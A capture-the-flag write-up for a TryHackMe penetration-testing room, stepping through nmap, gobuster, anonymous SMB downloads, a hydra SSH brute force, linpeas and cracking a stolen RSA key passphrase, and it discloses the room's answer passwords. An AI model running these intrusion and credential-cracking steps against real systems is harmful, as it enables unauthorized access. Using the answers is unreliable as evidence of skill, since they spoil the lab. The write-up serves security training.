 # Basic Pentesting Writeup

The room can be found at https://tryhackme.com/room/basicpentestingjt

The room is created by ashu

# Find the services exposed by the machine

## Nmap

Using nmap,

```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db45cbbe4a8b71f8e93142aefff845e4 (RSA)
|   256 09b9b91ce0bf0e1c6f7ffe8e5f201bce (ECDSA)
|_  256 a5682b225f984a62213da2e2c5a9f7c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http        Apache Tomcat 9.0.7
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.7
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
There seems to be 6 ports open

## Accessing the web pages

Accessing the webpage on port 80 shows a maintenance page.

Accessing on port 8080 shows the Apache Tomcat home page.

The other ports time out with the web browser.

# Hidden directory on web server

The question is asking for the name of the hidden directory on the web server

So I will use gobuster with the dirbuster wordlist for directories.

```
gobuster dir -u http://10.10.69.220:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html,png,jpg
```

After some time, gobuster reports a directory named `development`
```
/.html                (Status: 403) [Size: 292]
/index.html           (Status: 200) [Size: 158]
/development          (Status: 301) [Size: 318] [--> http://10.10.69.220/development/]
```
Accessing it with a browser shows 2 text files
```
dev.txt
j.txt
```

dev.txt
```
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```
This text seems to show there are two people, K and J. There is also something that is version 2.5.12.


j.txt
```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```
This text shows that J might have a weak password, however, I still do not know the username for J.

## Samba 

Since there are ports open for Samba, perhaps I can extract information as an anonymous user.

Using smbget,
```
smbget -R smb://10.10.69.220/anonymous
```

A file called `staff.txt` was downloaded.

staff.txt
```
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

Perhaps the usernames for J and K are Jan and Kay respectively.

## Hydra

Using hydra to bruteforce the ssh with `jan` as the username and the rockyou password list

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.69.220
```

![hydra result](images/1.png)

A password has been found, `armando`.

# Logging in with SSH

Using `jan:armando` to sucessfully login to ssh, I now have access to the machine.

## Checking for misconfigurations

### Sudo -l
Using `sudo -l` to check if there are any binaries that can be run with sudo permissions,

![No sudo permissions](images/2.png)

Seems like `jan` does not have any sudo permissions.

### SUID

Using `find / -perm u+s 2>/dev/null` to search for any binaries with the SUID bit set. 

There were no results.

### Linpeas

I decided to use linpeas to quickly search for any misconfigurations.

I hosted a python local server on my kali machine with the linpeas script. I then used `wget` with `jan`.

However, `jan` was not able to write a file in the home folder using `wget`.

![No write permission](images/3.png)

I decided to try and find writable directories with `find / -writable 2>/dev/null`. I found that the `/var/tmp/` directory is writable. 

Running linpeas, I noticed that jan is able to read kay's private rsa key file.

![RSA Key File](images/4.png)

### Cracking the RSA Key

Extracting the RSA kay and using `ssh2john` to create a file crackable by john the ripper and using `john` to crack the hash.

The password found is `beeswax`.

![RSA password found](images/5.png)

### SSH to Kay

Using the rsa key and passphrase to ssh into the machine, I now have access with Kay's account.

Kay has a file `pass.bak` in the home folder.

Using `cat` on the file reveals the final password used for the task.

`heresareallystrongpasswordthatfollowsthepasswordpolicy$$`

